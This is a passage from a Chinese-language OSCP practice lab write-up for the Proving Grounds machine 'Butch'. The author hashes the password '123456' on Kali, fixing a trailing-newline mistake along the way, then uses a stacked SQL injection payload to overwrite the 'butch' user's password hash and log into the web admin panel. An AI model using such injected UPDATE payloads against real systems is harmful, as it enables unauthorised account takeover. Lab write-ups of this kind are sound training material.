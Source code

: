 ```sql
UPDATE users SET password_hash=&#39;e150a1ec81e8e93e1eae2c3a77e66ec6dbd6a3b460f89c1d08aecf422ee401a0&#39; WHERE username=&#39;butch&#39;;
```

还是失败了，错误原因是`echo &#39;123456&#39;`这一步不对，echo默认情况下的输出是带有换行符的，导致计算的结果hash与预期不符。

重新计算Hash，再次修改原有记录：

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Butch]
└─$ echo -n &#39;123456&#39; | sha256sum
8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92  -

;UPDATE users SET password_hash=&#39;8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92&#39; WHERE username=&#39;butch&#39;;
```

![image-20240212184704451](resource/26-W-M-Butch.assets/image-20240212184704451.png)

使用`butch/123456`成功登录Web后台，发现是个后台上传功能。

![image-20240212184752955](resource/26-W-M-Butch.assets/image-20240212184752955.png)
